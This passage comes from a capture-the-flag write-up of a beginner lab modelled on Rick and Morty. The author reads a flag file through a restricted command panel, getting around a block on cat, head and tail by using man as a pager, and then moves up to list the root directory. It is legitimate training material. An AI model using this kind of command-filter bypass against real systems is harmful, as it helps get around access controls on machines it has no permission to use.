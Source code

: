 We got some useful stuff!

```
rick
ubuntu
```

I then moved into the `rick` directory and listed the files there.

```bash
cd rick; ls
```

The output was:

```
second ingredients
```

Since we know that the `cat` command is blacklisted, I tried to use other commands as an alternative. I first
tried `head` and `tail`, but they were both blacklisted too. Horrible.

Then I tried the `man` command which can act as a pager to scroll through files.

```bash
man /home/rick/second\ ingredients
```

And we got it!

```
1 jerry tear
```

## Third Ingredient - Root

I looked around the file system for a bit more, but couldn't find much. I then tried to go further up the directory
tree.

Doing directory traversal with `../`s and long listing of the files:

```
cd ../../../../ ; ls -la
```

I found

```
total 88
drwxr-xr-x  23 root root  4096 Dec 23 10:29 .
drwxr-xr-x  23 root root  4096 Dec 23 10:29 ..
drwxr-xr-x   2 root root  4096 Nov 14  2018 bin
drwxr-xr-x   3 root root  4096 Nov 14  2018 boot
drwxr-xr-x  14 root root  3260 Dec 23 10:29 dev
drwxr-xr-x  94 root root  4096 Dec 23 10:29 etc
drwxr-xr-x   4 root root  4096 Feb 10  2019 home
lrwxrwxrwx   1 root root    30 Nov 14  2018 initrd.img -> boot/initrd.img-4.4.0-1072-aws
drwxr-xr-x  21 root root  4096 Feb 10  2019 lib
drwxr-xr-x   2 root root  4096 Nov 14  2018 lib64
drwx------   2 root root 16384 Nov 14  2018 lost+found
drwxr-xr-x   2 root root  4096 Nov 14  2018 media
drwxr-xr-x   2 root root  4096 Nov 14  2018 mnt
drwxr-xr-x   2 root root  4096 Nov 14  2018 opt
dr-xr-xr-x 134 root root     0 Dec 23 10:29 proc
drwx------   4 root root  4096 Feb 10  2019 root
drwxr-xr-x  25 root root   880 Dec 23 10:29 run
drwxr-xr-x   2 root root  4096 Nov 14  2018 sbin
drwxr-xr-x   5 root root  4096 Feb 10  2019 snap
drwxr-xr-x   2 root root  4096 Nov 14  2018 srv
dr-xr-xr-x  13 root root     0 Dec 23 10:29 sys
```